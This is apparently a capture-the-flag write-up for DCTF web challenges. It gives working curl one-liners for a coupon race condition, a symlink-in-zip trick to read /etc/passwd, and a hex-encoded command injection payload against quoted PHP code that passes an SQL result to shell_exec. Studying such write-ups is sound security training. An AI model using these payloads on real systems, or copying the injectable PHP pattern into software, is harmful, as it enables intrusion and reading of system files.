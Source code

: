 # DCTF Web challenges writeup
## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:
```bash
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
```

## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
```bash
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
```
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web300
Coming soon!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
```bash
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
```bash
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
```

The reason this works was because id was used in an SQL query and got converted to a string:
```php
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...'); 
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
```

